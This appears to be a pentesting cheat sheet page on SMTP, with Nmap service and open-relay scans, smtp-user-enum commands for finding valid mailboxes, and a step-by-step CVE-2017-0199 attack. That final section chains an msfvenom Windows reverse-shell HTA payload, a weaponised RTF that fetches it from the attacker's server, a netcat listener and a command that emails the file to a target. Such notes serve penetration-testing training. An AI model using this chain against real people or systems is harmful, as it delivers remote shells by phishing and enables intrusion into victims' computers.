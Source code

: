 # Simple Mail Transfer Protocol

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Footprinting The Service

### **Nmap**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sC -sV -p25
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Nmap - Open Relay**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Enumerate users

Response codes from smtp servers may vary example code 250 & 252 is considered a valid user and smtp-user-enum checks only for 250

Without Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP
```

With Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP -d example.com
```

#### [RTF Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2017-0199)

1. msfvenom -p windows/shell\_reverse\_tcp LHOST=local-IP LPORT=443 -f hta-psh -o msfv.hta
2. python2 cve-2017-0199\_toolkit.py -M gen -t RTF -w MailFile.RTF -u http://local-WebServIP:Port/msfv.hta
3. python2 -m SimpleHTTPServer 80
4. nc -lnvp 443
5. sendEmail -f FromEmail@example.com -t ToEmail@example.com -u "Subject" -m "Message" -a MailFile.RTF -s TargetIP -v
